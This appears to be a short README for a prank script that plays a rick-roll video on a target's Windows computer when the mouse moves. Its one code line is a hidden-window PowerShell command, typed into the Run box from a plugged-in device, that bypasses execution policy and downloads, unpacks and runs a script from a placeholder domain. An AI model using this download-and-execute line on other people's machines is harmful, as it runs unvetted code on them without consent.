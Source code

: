<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# ADV-RickRoll

A script used to do an advanced rick roll on your target.

## Description

This program Rick Rolls your target without opening a muted youtube video.
A Rick Roll video is downloaded and played in your powershell console when a mouse movement is detected.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";irm -Uri 'https://MYDOMAIN.HERE/qee' -O "$D\rr.zip";Expand-Archive "$D\rr.zip" -Des $D\rr -Force;. "$D\rr\rr.ps1"
```

##

## Contributing

All contributors names will be listed here

M3!

##

## Version History

* 0.1
    * Initial Release

##


